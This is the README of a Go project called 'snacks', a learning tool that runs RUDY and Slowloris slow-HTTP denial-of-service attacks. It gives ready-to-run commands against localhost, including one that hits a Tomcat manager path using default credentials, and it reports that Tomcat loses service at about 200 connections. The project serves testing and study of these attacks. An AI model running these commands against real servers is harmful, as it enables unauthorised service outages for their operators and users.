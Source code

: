 # snacks

A small collection of tools for limited testing of common HTTP vulnerabilities.

Goals:
- Learn Go
- Learn about common HTTP attack vectors

### Clone
```bash
go get github.com/andrewflbarnes/snacks
# or
git clone git@github.com:andrewflbarnes/snacks
```

### Build
```bash
# local build
make
# local install
make install
```

### Run

##### Judy

Judy launches a RUDY (r-u-dead-yet) attack using JSON as the content-type over more typical
MIME types found in other implementations.

For a full list of options, defaults and what they do
```bash
./snacks judy -h
```

```bash
./snacks judy -size 1000000 -sd 10ms -sb 7 -vv localhost:8888/boom
```
The above command will
- send 1000000 arbitrary bytes to hold the connection open (not including HTTP POST headers)
- wait 10ms between sending each segment of bytes
- send 7 bytes in every segment (excluding the initial HTTP POST headers)
- set the path to `/boom` in the HTTP POST request and send to `localhost:8888`
- enable trace logging


##### Loris

Loris launches a Slow Loris attack by repeatedly sending a duplicate HTTP header every fixed time period.
At the moment this will always send the whole header, a `-sb`/SendBytes option is not currently available.

For a full list of options, defaults and what they do
```bash
./snacks loris -h
```

```bash
./snacks loris -size 1000000 -sd 1s -head "x-slow: loris" -vv localhost:8888/boom
```
The above command will
- send 1000000 repeat instances of the header (not most application servers limit the max. number of HTTP headers)
- wait 1s between sending each header
- set the header to be set to `x-slow: loris`
- set the path to `/boom` in the HTTP POST request and send to `localhost:8888`
- enable trace logging

### Useful judy options

##### Content type

If a specific content-type header is required use the `-type` flag. e.g.
```bash
./snacks judy -type application/x-www-form-urlencoded ...
```

For supported content types this will set a default payload prefix which may be overridden with `-prefix`

To override a payload prefix use the `-prefix` flag. e.g. for a default JSON content-type (which would otherwise
default to using `{"a":"` as the payload prefix)
```bash
./snacks judy -prefix '{"payload":"' ...
```

For custom content-types and prefix apyloads specify both `-type` and `-prefix` e.g.
```bash
./snacks judy -type application/xml -prefix '<payload>' ...
./snacks judy -type application/vnd.my.custom.type -prefix '1|string|payload|' ...
```

### Useful general options

##### Authorization

If authorization is required use either `-basic` or `-bearer` flags e.g.
```bash
./snacks loris -basic tomcat:tomcat ...
./snacks judy -bearer 0123456789ABCDEF ...
```

### Examples

Tomcat 8 seems to be particularly susceptible to RUDY attacks in it's default configuration even using
the Http11NioProtocol. For example you can hit a management endpoint or an arbitrary path on a
springboot webapp:
```bash
snacks judy \
  -size 1000000 \
  -sb 10 \
  -type application/x-www-form-urlencoded \
  -basic tomcat:tomcat \
  -max 400 \
  localhost:8888/manager/html/expire

snacks judy \
  -size 1000000 \
  -sb 10 \
  -basic tomcat:tomcat \
  -max 400 \
  localhost:8888/mywebapp
```

Loss of service occurs around 200 connections in. Perhaps unsuprisingly this matches with the max number
of threads Tomcat is configured to use by default.